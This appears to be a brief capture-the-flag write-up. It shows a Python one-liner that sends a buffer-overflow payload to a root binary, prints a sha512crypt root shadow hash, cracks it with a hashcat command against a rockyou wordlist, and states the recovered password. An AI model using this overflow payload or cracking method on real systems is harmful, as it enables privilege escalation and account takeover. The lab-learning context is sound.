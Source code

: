 # Finishing the job

## Notes

```
python -c 'import struct;print "A"*44 + struct.pack("<I",0x080484cb")' | /opt/secret/root

hash of root
$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:18277:0:99999:7:::

cracking hash using hashcat

hashtype => sha512crypt
hashmode => 1800

```

## Questions

1. What is the root password!

```
hashcat -m 1800 -a 0 hash /media/nikesh/HDD/Security/wordlist/rockyou.txt

love2fish
```
